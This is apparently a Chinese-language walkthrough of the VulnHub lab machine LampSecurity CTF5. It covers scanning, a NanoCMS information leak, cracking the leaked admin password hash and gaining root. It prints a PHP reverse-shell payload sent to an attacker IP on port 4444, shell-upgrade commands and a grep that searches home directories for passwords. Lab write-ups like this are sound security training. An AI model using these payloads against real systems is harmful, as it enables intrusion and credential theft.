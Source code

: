 LampSecurityCTF5 - CTF
===

> 靶机下载: [镜像](https://download.vulnhub.com/lampsecurity/ctf5.zip)

## 基本信息收集

### 主机发现

![1-1.png](1-1.png)

### 端口扫描

![1-2.png](1-2.png)

![1-3.png](1-3.png)

![1-4.png](1-4.png)

![1-5.png](1-5.png)

![1-6.png](1-6.png)

![1-7.png](1-7.png)

![1-8.png](1-8.png)

80 端口爆了比较多的信息;

### 网页访问

打开是一个论坛系统: Phake Organization;

![1-9.png](1-9.png)

### 目录爆破

简单的爆破一下:

![1-10.png](1-10.png)

根据结果能发现 php 信息:

![1-11.png](1-11.png)

另外, 在首页能找到 Andy 这个用户的 blog, 通过 webmail 一路找进来能找到一个管理员登录界面:

![1-12.png](1-12.png)

注意这里有写 "NanoCMS Admin Login"

## Nano 漏洞利用

既然知道了 CMS , 着手在 google 和 Metasploit 里收集一下 nday:

![2-1.png](2-1.png)

![2-2.png](2-2.png)

![2-3.png](2-2.png)

> NanoCMS 未对已认证用户创建网页时的数据进行过滤
页面默认保存为 `.php` 后缀，使得通过认证的攻击者能够访问底层系统;

这个利用需要一个能登陆的已经通过认证的 CMS 账户, 不过尝试注册的话, 注册之后貌似不会默认分配密码, 需要用邮箱去重置密码, 先看看能不能获取已知账户的密码, 例如这个 Andy:

### 信息泄露

接着找找这个 "nano cms" 的漏洞, 发现还存在一个信息泄露漏洞:

![2-4.png](2-4.png)

从几个不同的路径尝试后, 发现在 `http://192.168.170.153/~andy/data/pagesdata.txt` 存在信息泄露:

![2-5.png](2-5.png)

把这个结果拿去 [Crackstation](https://crackstation.net/) 碰撞, 结果是: `shannon`:

![2-6.png](2-6.png)

尝试 `admin:shannon` 的组合, 直接登录了:

![2-7.png](2-7.png)

### 远程代码执行

#### 发现漏洞

试试用当前账户创建一个新页面 `test`:

![2-8.png](2-8.png)

竟然是以 `.php` 的格式进行创建的, 那就有非常大的攻击面了。

#### 发送反弹 shell

接下来直接尝试发送反弹 shell, 测试有没有过滤或者屏蔽:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.170.145/4444 0>&1'");
?>
```

![2-9.png](2-9.png)

![2-10.png](2-10.png)

同时在 kali 上监听 4444 端口:

![2-11.png](2-11.png)

收到了反弹 shell! 接下来只需要想办法提权即可。

## Linux 提权

### getshell

首先获取完整 shell, 试试环境里有没有 python:

```bash
which python
python -c 'import pty;pty.spawn("/bin/bash")'
stty raw -echo
```

![3-1.png](3-1.png)

### 收集信息

接下来粗略枚举一下, 收集信息:

![3-2.png](3-2.png)

![3-3.png](3-3.png)

```bash
grep -rni /home -e 'pass' 2>/dev/null
```
> `-r`: 递归搜索;
> `-n`: 显示匹配行号;
> `-i`: 忽略大小写;
> `-e`: 包含字符串;
> `2>/dev/null`: 忽略报错;

再试试搜索可能有的备份密码文件:

![3-4.png](3-4.png)

### 备份信息泄露

找到一个很可疑的文件, 读一下:

![3-5.png](3-5.png)

试试这个密码:

![3-6.png](3-6.png)

直接登录成功! 完成了提权。后面找了半天没找到 flag, 看了下靶机附带的 pdf, 原来是没有 flag 文件, 那么到这里渗透就结束了, 总体来说比较简单, 主要漏洞集中在信息泄露上。